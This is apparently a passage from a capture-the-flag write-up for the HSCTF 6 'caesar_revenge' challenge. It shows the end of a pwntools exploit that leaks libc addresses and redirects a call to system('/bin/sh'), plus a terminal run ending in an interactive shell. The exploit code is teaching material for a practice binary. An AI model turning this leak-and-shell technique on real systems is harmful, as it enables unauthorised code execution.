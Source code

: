 ```python

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

# system("/bin/sh")
p.sendlineafter("encoded: ", "A")
p.sendlineafter("shift: ", "/bin/sh")

p.interactive()
```

```bash
chykor12@ubuntu:~/HSCTF 6$ python exploit_caesar_revenge.py
[*] '/home/chykor12/HSCTF 6/caesar_revenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './caesar_revenge': pid 2918
[*] address of strtol(): 0x7f4786c51110, 139945180467472
[*] address of libc base: 0x7f4786c0c000, 139945180184576
[*] address of system(): 0x7f4786c5b440, 139945180509248
[*] Switching to interactive mode
$ whoami
chykor12
```
